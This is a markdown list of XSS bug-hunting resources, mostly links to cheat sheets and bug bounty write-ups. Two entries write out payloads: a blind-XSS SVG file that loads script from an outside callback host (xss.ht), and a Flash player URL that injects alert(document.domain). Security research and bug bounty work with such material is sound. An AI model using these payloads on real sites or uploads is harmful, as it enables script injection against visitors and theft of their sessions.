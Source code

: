 ## 1. Browser's XSS Filter Bypass Cheat Sheet

https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet

## 2. Stored XSS using file upload
https://medium.com/@vis_hacker/how-i-got-stored-xss-using-file-upload-5c33e19df51e

## 3. XSS Through Parameter Pollution
https://infosecwriteups.com/xss-through-parameter-pollution-9a55da150ab2

## 4. XSS via HTTP Headers
https://brutelogic.com.br/blog/xss-via-http-headers/

## 5. Blind XSS in svg file
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
  "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg width="200"
       height="200"
       zoomAndPan="disable"
       xmlns="http://www.w3.org/2000/svg"
       xmlns:xlink="http://www.w3.org/1999/xlink"
       xml:space="preserve">
    <!-- Script linked from the outside-->
    <script xlink:href="https://smaul1.xss.ht" />
    <script>
      //<![CDATA[
        alert("Smaul");
      ]]>
    </script>
  </svg>
  ```

## 6. PostMessage XSS
```
https://medium.com/@youghourtaghannei/postmessage-xss-vulnerability-on-private-program-18e773e1a1ba
```
## 7. Flash Based Reflected XSS
```
http://www.domain.com/jwplayer/player.swf?playerready=alert(document.domain)
```
https://hackerone.com/reports/859806

## 8. XSS in .Net
https://blog.isec.pl/all-is-xss-that-comes-to-the-net/

## 9. DOMXSS WIKI
https://github.com/wisec/domxsswiki/wiki

## 10. Reflected XSS Through Insecure Dynamic Loading
https://infosecwriteups.com/reflected-xss-through-insecure-dynamic-loading-dbf4d33611e0

## 11. Uber Bug Bounty: Turning Self-XSS into Good-XSS
https://whitton.io/articles/uber-turning-self-xss-into-good-xss/

## 12. Multi Domain DOM Cross Site Scripting
https://coffeejunkie.me//Multi-Domain-DOM-Cross-Site-Scripting/

## 13. Hunting for XSS with CodeQL
https://medium.com/codex/hunting-for-xss-with-codeql-57f70763b938




